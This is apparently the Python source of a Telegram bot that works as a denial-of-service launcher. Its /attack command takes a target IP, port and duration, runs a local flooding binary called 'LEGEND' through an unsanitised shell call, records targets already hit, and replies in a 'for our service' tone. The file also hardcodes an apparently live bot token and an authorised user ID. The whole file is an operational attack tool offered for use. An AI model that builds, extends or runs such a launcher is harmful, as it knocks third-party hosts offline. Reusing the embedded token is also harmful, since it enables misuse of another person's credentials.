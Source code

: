 import os
import asyncio
from telegram import Update
from telegram.ext import Application, CommandHandler, CallbackContext
from telegram.error import TelegramError

TELEGRAM_BOT_TOKEN = '7405672462:AAEmvpvmrcVTT1lViRIatLYwymKQw_xwKGk'
ALLOWED_USER_ID = 5963317206 
bot_access_free = True  

# Store attacked IPs to prevent duplicate attacks
attacked_ips = set()

async def start(update: Update, context: CallbackContext):
    chat_id = update.effective_chat.id
    message = (
        "*🔥 Welcome to the battlefield! 🔥*\n\n"
        "*Use /attack <ip> <port> <duration>*\n"
        "*Let the war begin! ⚔️💥*"
    )
    await context.bot.send_message(chat_id=chat_id, text=message, parse_mode='Markdown')

async def run_attack(chat_id, ip, port, duration, context):
    try:
        process = await asyncio.create_subprocess_shell(
            f"./LEGEND {ip} {port} {duration}",
            stdout=asyncio.subprocess.PIPE,
            stderr=asyncio.subprocess.PIPE
        )
        stdout, stderr = await process.communicate()

        if stdout:
            print(f"[stdout]\n{stdout.decode()}")
        if stderr:
            print(f"[stderr]\n{stderr.decode()}")

    except Exception as e:
        await context.bot.send_message(chat_id=chat_id, text=f"*⚠️ Error during the attack: {str(e)}*", parse_mode='Markdown')

    finally:
        await context.bot.send_message(chat_id=chat_id, text="*✅ Attack Completed! ✅*\n*Thank you for using our service!*", parse_mode='Markdown')

async def attack(update: Update, context: CallbackContext):
    chat_id = update.effective_chat.id
    user_id = update.effective_user.id  

    if user_id != ALLOWED_USER_ID:
        await context.bot.send_message(chat_id=chat_id, text="*❌ You are not authorized to use this bot!*", parse_mode='Markdown')
        return

    args = context.args
    if len(args) != 3:
        await context.bot.send_message(chat_id=chat_id, text="*⚠️ Usage: /attack <ip> <port> <duration>*", parse_mode='Markdown')
        return

    ip, port, duration = args

    if ip in attacked_ips:
        await context.bot.send_message(chat_id=chat_id, text=f"*⚠️ This IP ({ip}) has already been attacked!*\n*Try another target.*", parse_mode='Markdown')
        return

    attacked_ips.add(ip)  # Store attacked IP

    await context.bot.send_message(chat_id=chat_id, text=( 
        f"*⚔️ Attack Launched! ⚔️*\n"
        f"*🎯 Target: {ip}:{port}*\n"
        f"*🕒 Duration: {duration} seconds*\n"
        f"*🔥 Let the battlefield ignite! 💥*"
    ), parse_mode='Markdown')

    asyncio.create_task(run_attack(chat_id, ip, port, duration, context))

def main():
    application = Application.builder().token(TELEGRAM_BOT_TOKEN).build()
    application.add_handler(CommandHandler("start", start))
    application.add_handler(CommandHandler("attack", attack))

    application.run_polling()

if __name__ == '__main__':
    main()
    
